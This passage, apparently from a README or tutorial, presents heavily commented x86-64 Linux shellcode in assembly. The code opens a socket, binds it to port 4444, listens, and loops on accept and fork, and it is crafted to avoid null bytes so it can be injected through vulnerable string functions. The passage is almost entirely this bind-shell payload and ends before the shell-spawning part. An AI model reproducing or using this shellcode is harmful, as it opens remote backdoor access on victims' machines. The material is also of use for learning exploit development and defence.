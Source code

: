 Also, I've gone through the trouble to make sure the code doesn't generate any `Null` bytes. This is important in shellcode as the attack vector is often the misuse of string functions. It's heavily commented so it will hopefully be somewhat understandable:

```asm
# asm.s

    xor    %eax, %eax       # start off with %eax = 0

    # socket call           # socket(AF_INET, SOCK_STREAM, 0)
    mov    $0x1, %al        #
    mov    %eax, %esi       # SOCK_STREAM == 1
    inc    %al              #
    mov    %eax, %edi       # AF_INET == 2
    xor    %rdx, %rdx       # (arg 3 = 0)
    mov    $0x29, %al       # set the syscall number
    syscall

    # bind(int socket, const struct sockaddr *address, socklen_t address_len)
    xchg   %eax, %ebx       # store the socket FD in %ebx
    xor    %rax, %rax       # zero out %rax
    push   %rax             # push it so we can use it later
    pushq  $0x5c110102      # set sin_port = 4444 == 0x5c11
                            # and sin_family = AF_INET == 0x0002
                            # we actually want 0x5c110002 but that has a
                            # null byte which we set in the next instruction

    mov    %al, 0x1(%rsp)   # here we set that null byte

    mov    %rsp, %rsi       # load our carefully constructed value into %rsi
                            # (arg 2 for bind)
    mov    $0x10, %dl       # (arg 3 for bind)
    mov    %ebx, %edi       # put the FD we got from socket() into %rdi
                            # (arg 1 for bind)
    mov    $0x31, %al       # set the syscall number
    syscall

    # listen call           # listen(int socket, int backlog)
    mov    $0x5, %al        #
    mov    %eax, %esi       # the second arg to listen (5 in this case)
    mov    %ebx, %edi       # the socket FD (arg 1 of listen)
    mov    $0x32, %al       # set the syscall number
    syscall

# we call accept in what is effectively a while true loop
# accept(socket, restrict address, address_len)
accept:
# we call accept(socket_fd, 0, 0). It works fine to pass 0 for arg 2 and 3.
    xor    %edx, %edx       # (0 -- arg 3 for accept)
    xor    %esi, %esi       # (0 -- arg 2 for accept)
    mov    %ebx, %edi       # the socket FD (arg 1 for accept)
    mov    $0x2b, %al       # setup the syscall number
    syscall

    mov    %eax, %ebp       # store the FD from accept

    # fork
    mov   $0x39, %al        # setup the syscall number
    syscall

    # go back to accept if we are the parent
    or    %eax, %eax
    jnz    accept

```